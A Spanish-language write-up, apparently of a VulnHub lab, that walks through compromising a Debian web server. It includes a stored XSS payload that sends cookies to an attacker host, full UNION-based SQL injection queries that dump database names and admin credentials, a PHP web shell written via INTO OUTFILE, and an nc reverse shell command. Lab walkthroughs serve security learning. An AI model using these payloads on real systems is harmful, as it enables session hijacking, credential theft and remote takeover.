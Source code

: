 ```yaml
---
layout: post
title: XSS and MySQL file - VulnHub
tags: [xss,sql]
subtitle: "XSS and MySQL file - VulnHub"
---
```


- [Puertos abiertos](#puertos-abiertos)
- [Servicio web (80)](#servicio-web-80-)
  * [Fuzzing](#fuzzing)
  * [XSS](#xss)
  * [SQL injection](#sql-injection)
    + [Cantidad de columnas](#cantidad-de-columnas)
    + [Obteniendo datos de MySQL](#obteniendo-datos-de-mysql)
    + [Enumerar Base de Datos](#enumerar-base-de-datos)
    + [Enumerar tablas](#enumerar-tablas)
    + [Enumerar columnas](#enumerar-columnas)
    + [Cantidad de registros](#cantidad-de-registros)
    + [Extraer registros](#extraer-registros)
    + [Escritura de archivo](#escritura-de-archivo)
    + [Shell Inverso (www-data)](#shell-inverso-www---data-)

----

## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
```

## Servicio web 80

![web](../assets/imgs/xss_mysql/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -c -t 200 -fc 403
[...]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
all                     [Status: 200, Size: 644, Words: 177, Lines: 39]
cat                     [Status: 200, Size: 644, Words: 177, Lines: 39]
classes                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
footer                  [Status: 200, Size: 185, Words: 75, Lines: 16]
header                  [Status: 200, Size: 571, Words: 167, Lines: 34]
index                   [Status: 200, Size: 1297, Words: 304, Lines: 60]
index.php               [Status: 200, Size: 1297, Words: 304, Lines: 60]
post                    [Status: 200, Size: 786, Words: 200, Lines: 39]
                        [Status: 200, Size: 1297, Words: 304, Lines: 60]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

### XSS

Es una vulnerabilidad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Éste código es ejecurado por las vívtimas y permite a los atacantes eludir los controles de acceso y hacerse pasar por usuarios.

En etes caso nos encontramso ante un `XSS almacenado` o persistente, ya que a través de de esta vulnerabilidad, el script malicioso inyectado se almacena permanentemente dentro del servidor de las base de datos de la aplicación web.


**Payload:**

| argumento         | descripción                                                 |
|-------------------|-------------------------------------------------------------|
| document.write()  | escribe una cadena dentro del hilo de un `document` abierto |
| document.cookie() | obtiene las `cookies` asociadas con el documento            |
| <script\>         | insertar codigo javascript                                  |
| <img\>            | repersenta una imágen en el documento                       |
| src               | la url de la imágen                                         |

```
<script>document.write('<img src="http://192.168.0.107:8000/test.jpg?cookies='+document.cookie+'">')</script>
```

![xss](../assets/imgs/xss_mysql/xss.png)

Abrimos un servicio web con `python` para la captura de la cookie de `adminsitrador`.

![python](../assets/imgs/xss_mysql/python.png)

Cambiamos la cookie a traves del plugin `cookie manager` del navegador Firefox, tambien hat otras opciones como BurpSuite o en la opción `storage` de Firefox

![admin](../assets/imgs/xss_mysql/admin.png)

----

### SQL injection

Párametro vulnerable: `http://192.168.0.102/admin/edit.php?id=2%27`

![sql](../assets/imgs/xss_mysql/sql.png)

#### Cantidad de columnas

```
http://192.168.0.102/admin/edit.php?id=1 order by 1-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 2-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 3-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 4-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 5-- -		(!)
```

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,3,4-- -
```

![union](../assets/imgs/xss_mysql/union.png)

#### Obteniendo datos de MySQL

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,version(),database(),4-- -
```

![mysql](../assets/imgs/xss_mysql/mysql.png)

#### Enumerar Base de Datos

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.schemata-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 0,1-- -	(information_schema)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 1,1-- -	(blog)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 2,1-- -	(mysql)
```

#### Enumerar tablas

```
http://192.168.0.102/admin/edit.php?id=3 union select  1,2,count(*),4 FROM information_schema.tables WHERE table_schema="blog"-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 0,1-- -	(comments)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 1,1-- -	(posts)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 2,1-- -	(users)
```

#### Enumerar columnas

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.columns WHERE table_name="users" and table_schema="blog"-- -			(3)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 0,1-- -		(id)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 1,1-- -		(login)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 2,1-- -		(password)
```
#### Cantidad de registros

Visualizar la cantidad de registros de una tabla (en este caso lala tabla `users`de la DDBB `blog`).

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(id),4 from blog.users-- -
```

#### Extraer registros

Como sólo hay un registro omitiré las limitaciones

```
192.168.0.102/admin/edit.php?id=3 union select 1,2,concat(id,0x3a,login,0x3a,password), 4 from blog.users-- -
```

![administrator](../assets/imgs/xss_mysql/administrator.png)


Posteriormente crackeo el hash obteniendo la contraseña de usuario `admin`.

![hash](../assets/imgs/xss_mysql/hash.png)

```
admin ::8efe310f9ab3efeae8d410a8e0166eb2 :: P4ssw0rd
```

#### Escritura de archivo

Despues de hacer enumeraciones en los distintos directorios del sitio web descubrí que en la ruta del sistema `/var/www/css` tengo permisos de escritura

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,"<?php echo system($_REQUEST['cmd']); ?>",4 INTO OUTFILE '/var/www/css/test.php'-- -
```

Inyecto en la variable `cmd` un comando un de sistema para comprobar si se puede ejecutar

![www](../assets/imgs/xss_mysql/www.png)


#### Shell Inverso www-data

```
192.168.0.102/css/test.php?cmd=nc -e /bin/bash 192.168.0.107 4444
```

Pongo en escucha para capturar la shell.

![nc](../assets/imgs/xss_mysql/nc.png)




<!--![cron](../assets/imgs/xss_mysql/cron.png)-->
